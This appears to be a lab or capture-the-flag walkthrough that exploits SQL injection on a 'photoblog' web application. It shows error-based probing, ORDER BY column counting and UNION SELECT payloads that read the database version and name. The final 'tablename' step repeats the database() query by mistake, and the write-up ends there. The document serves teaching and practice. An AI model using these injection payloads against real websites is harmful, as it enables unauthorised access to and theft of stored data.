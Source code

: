 ## Task

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/5ddbab7b-1bb5-4914-b37f-71c5129453cd)

Navigate to the webpage,

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/2b60418f-1992-403a-bce9-27b56c4855a7)

Click on "pool", you should get this url

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/28ae9253-baa2-43cd-a9c2-ee6c777bc70c)

Checking if it is vulnerable to SQLi, just add ```'``` at the back of ```3```. This should trigger a SQL error

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0390bd99-c07c-4037-a3c6-ac89a1ee19ab)

We'll be exploiting this from the webpage

Lets check for the number of columns available in the database. We can use the query
```sql
order by 1 -- 
order by 2 --
order by 3 --
```
Using these queries

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/57db1a3f-b189-4daa-8fad-c7f4557ddf29)

This means we don't have a 5th column in the database, which means we have just 4 columns.

Lets check for the column that is compatible with string data, that is the vulnerable column. We can use the query
```sql
AND 0 UNION SELECT 1,2,3,4-- -
```
This query should return the vulnerable column

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/28f96a6b-74b3-4908-b94a-46cb40721d01)

We can see that column 2 is the vulnerable one. 

Lets check the version the database is using
```sql
UNION SELECT 1,version(),3,4-- -
```

Checking for the name of the database, we can use the query
```sql
UNION SELECT 1,database(),3,4-- -
```

![image](https://github.com/BlackAnon22/BlackAnon22.github.io/assets/67879936/0a2d3138-b00a-4419-a5df-908f13d485f7)

We got the name of the database to be ```photoblog```

Checking for the "tablename", we can use the query
```sql
UNION SELECT 1,database(),3,4-- -
```

































